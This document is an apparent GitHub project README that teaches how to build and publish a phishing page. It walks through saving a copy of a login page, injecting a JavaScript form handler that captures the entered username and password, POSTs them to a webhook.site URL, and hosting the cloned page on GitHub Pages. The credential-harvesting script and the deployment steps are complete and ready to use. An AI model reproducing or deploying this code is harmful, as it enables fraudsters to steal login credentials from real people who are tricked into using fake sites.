





# Project Overview

Phishing is a scamming technique on the Internet that involves tricking the user into believing they are communicating with a legitimate company (such as a bank, an online shopping site, or a social network) when in reality, they are providing their personal information (such as passwords, credit card numbers, or login credentials) to fraudsters.

Fraudsters often use emails or text messages to send links that lead to websites that closely resemble legitimate sites but are actually imitations created to steal sensitive information.

# Manual

## Copying a website

You can easily copy a website by saving the webpage you are interested in cloning. Right-click and choose "Save page as".    


Make sure you choose "Web page, HTML only" when saving, this way you have everything you need in one html document. You should also rename your page `index.html` so it will work later.    


When you open this document it should show up exactly like the webpage online.

## Webhook

We will be using [Webhook.site](https://webhook.site) because it's easy to use and free. No need to sign up, just visit the page and you will be given an unique URL which we will use in our script. On the left pane you can also see it is already working and waiting to receive its first request.    


## Altering the webpage / Writing the script

Now we need to add our own script on the webpage so it sends the entered credentials to our Webhook. I used JavaScript in a script tag put at the bottom of the code. It's pretty straight-forward. You get the form element with its ID and add an event listener. You fetch the username and password, and then send them to your webhook URL using the POST method. I added optional error management. And finally you reload the page.

```js
// Intercept the form submission
document.getElementById('login').addEventListener('submit', async function(event) {
    event.preventDefault(); // Prevents the default submit

    const username = document.getElementById('username').value;
    const password = document.getElementById('password').value;

    try {
        const response = await fetch('https://webhook.site/5bc1f02d-51a2-411e-9f38-3fbf7e11fea7', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded',
            },
            body: `username=${encodeURIComponent(username)}&password=${encodeURIComponent(password)}`,
        });

        if (response.ok) {
            // Prints an alert in case of success
            alert('Données envoyées avec succès.');
        } else {
            // Prints an alert in case of an error
            alert('Erreur lors de l\'envoi des données. Vérifiez le serveur cible.');
        }
    } finally {
        // Refreshes the page after sending
        window.location.reload();
    }
});
```

> [!note]
> It's important that you use the correct IDs for the form, username and password values. Check them in your HTML page, they need to match!

## Publishing the webpage

The last thing you need to do is to publish your phishing page. I used Github Pages because it works for static websites and it's free.
You need to create a repository with your webpage in it, then go to settings.   


Then click on the "Pages" tab.    


Then choose your branch it needs to build from and it will deploy your page for you!